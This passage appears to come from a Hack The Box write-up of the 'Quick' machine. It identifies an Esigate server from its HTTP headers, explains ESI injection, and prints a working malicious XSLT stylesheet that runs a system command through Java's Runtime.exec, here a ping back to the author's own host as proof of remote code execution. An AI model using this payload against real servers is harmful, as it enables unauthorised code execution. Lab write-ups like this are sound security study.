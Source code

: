 ```http
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Via: 1.1 localhost (Apache-HttpClient/4.5.2 (cache))
X-Powered-By: Esigate
Content-Length: 9361
Connection: close
```

Let us further enumerate `Esigate`.

# Initial Shell - ESI Injection

After a bit of research, I can across this [blog post](https://blog.h3xstream.com/2019/05/esi-injection-part-2-abusing-specific.html) which explains a technique called ESI-Injection. With this RCE through XSLT is possible. For this an esi include tag is injected inside a page that is cached. The injected value is found and is reflected in the HTTP response. The stylesheet value shows to a malicious XSLT resource hosted on my server. The Esigate automatically processes the XSLT and therefore allows RCE.

Hosting the payload on the apache2 webserver:
```bash
root@darkness:/var/www/html# service apache2 start
root@darkness:/var/www/html# cat ping.xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ping -c 4 10.10.14.12]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

![Ping POC exploit](/assets/htb/Quick/exploit-ping.png)
